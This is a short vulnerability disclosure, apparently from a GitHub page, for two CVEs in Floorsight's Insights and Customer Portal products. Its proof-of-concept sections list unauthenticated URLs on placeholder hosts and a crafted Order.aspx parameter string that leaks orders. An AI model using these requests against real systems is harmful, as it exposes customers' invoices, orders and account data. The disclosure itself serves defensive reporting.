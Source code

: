 ## CVE-2023-45892

Name of Product: Insights by Floorsight
The affected or fixed version(s): Versions from Q3 2023 and below (There are no version numbers)
The CVE ID for the entry: CVE-2023-45892
Description: This vulnerability allows a remote attacker to access invoices and orders while unauthenticated. There are no access controls to access these pages.
Vulnerability Type: Insecure Direct Object Reference

### Proof of Concept
Invoices and Orders are accessible unauthenticated:

* https://insight.victim.com/invoice.aspx?id=1
* https://insight.victim.com/order.aspx?id=1

## CVE-2023-45893

Name of Product: Customer Portal by Floorsight
The affected or fixed version(s): Versions from Q3 2023 and below (There are no version numbers)
The CVE ID for the entry: CVE-2023-45893
Description: This vulnerability allows a remote attacker to access several sensitive pages while unauthenticated. There are no access controls to access these pages.
Vulnerability Type: Insecure Direct Object Reference

### Proof of Concept

The following are accessible unauthenticated:

* https://customerportal.victim.com/order.aspx
* https://customerportal.victim.com/ratings.aspx
* https://customerportal.victim.com/invoice.aspx
* https://customerportal.victim.com/passwordrecovery.aspx
* https://customerportal.victim.com/statement.aspx
* https://customerportal.victim.com/order.aspx
* https://customerportal.victim.comm/ratings.aspx
* https://customerportal.victim.com/invoice.aspx
* https://customerportal.victim.com/passwordrecovery.aspx
* https://customerportal.victim.com/statement.aspx

To leak orders, for example, you may need to play with the parameters. replace CITYNAME with the server it's hosted in; if you know. findbycode=false is the the thing allows orders to be leaked here.

`Order.aspx?Id=1&lserver=<CITYNAME>&findbycode=FALSE&pcode=37374&pname=USERNAME`
